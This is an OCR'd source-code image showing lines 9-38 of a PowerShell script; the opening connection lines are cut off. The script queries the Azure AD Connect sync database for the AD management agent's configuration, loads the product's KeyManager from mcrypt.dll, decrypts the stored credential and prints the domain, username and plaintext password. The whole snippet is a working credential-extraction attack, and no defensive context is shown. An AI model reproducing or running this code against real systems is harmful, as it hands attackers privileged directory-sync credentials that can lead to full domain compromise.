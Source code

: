 | 9   | $key_id  =  $reader.GetInt32(0) |
| 10  | $instance_id  =  $reader.GetGuid(1) |
| 11  | $entropy  =  $reader.GetGuid(2) |
| 12  | $reader.Close() |
| 13  |     |
| 14  | $cmd  =  $client.CreateCommand() |
| 15  | $cmd.CommandText  =  "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'" |
| 16  | $reader  =  $cmd.ExecuteReader() |
| 17  | $reader.Read() \|  Out-Null |
| 18  | $config  =  $reader.GetString(0) |
| 19  | $crypted  =  $reader.GetString(1) |
| 20  | $reader.Close() |
| 21  |     |
| 22  | add-type  -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll' |
| 23  | $km  =  New-Object  -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager |
| 24  | $km.LoadKeySet($entropy,  $instance_id,  $key_id) |
| 25  | $key  =  $null |
| 26  | $km.GetActiveCredentialKey([ref]$key) |
| 27  | $key2  =  $null |
| 28  | $km.GetKey(1, [ref]$key2) |
| 29  | $decrypted  =  $null |
| 30  | $key2.DecryptBase64ToString($crypted, [ref]$decrypted) |
| 31  |     |
| 32  | $domain  =  select-xml  -Content $config  -XPath "//parameter[@name='forest-login-domain']"  \| select @{Name  =  'Domain'; Expression  = {$_.node.InnerXML}} |
| 33  | $username  =  select-xml  -Content $config  -XPath "//parameter[@name='forest-login-user']"  \| select @{Name  =  'Username'; Expression  = {$_.node.InnerXML}} |
| 34  | $password  =  select-xml  -Content $decrypted  -XPath "//attribute"  \| select @{Name  =  'Password'; Expression  = {$_.node.InnerText}} |
| 35  |     |
| 36  | Write-Host ("Domain: "  +  $domain.Domain) |
| 37  | Write-Host ("Username: "  +  $username.Username) |
| 38  | Write-Host ("Password: "  +  $password.Password) |
